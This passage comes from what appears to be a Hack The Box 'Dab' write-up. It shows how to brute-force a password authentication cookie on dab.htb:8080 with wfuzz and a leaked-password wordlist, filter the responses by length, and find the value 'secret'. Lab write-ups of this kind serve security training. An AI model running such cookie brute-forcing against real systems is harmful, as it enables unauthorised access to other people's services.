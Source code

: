 ![](/images/hackthebox/dab/21.png)
<br> We got another message : `Access denied: password authentication cookie incorrect`
<br> So we just need to get the right value of the cookie and we will get in.
<br> We will use wfuzz to fuzz the cookie 
`wfuzz -u http://dab.htb:8080/ -w darkweb2017-top10000.txt -b password=FUZZ`
<br> Then we will terminate it immediately and look how can we filter the output
![](/images/hackthebox/dab/22.png)
<br> All the responses has `324 chars` so we will add `--hh 324` and this will not show us any response with 324 chars
`wfuzz -u http://dab.htb:8080/ -w darkweb2017-top10000.txt -b password=FUZZ --hh 324`
![](/images/hackthebox/dab/23.png)
<br> `secret` gave us a response of 540 , let's try in burp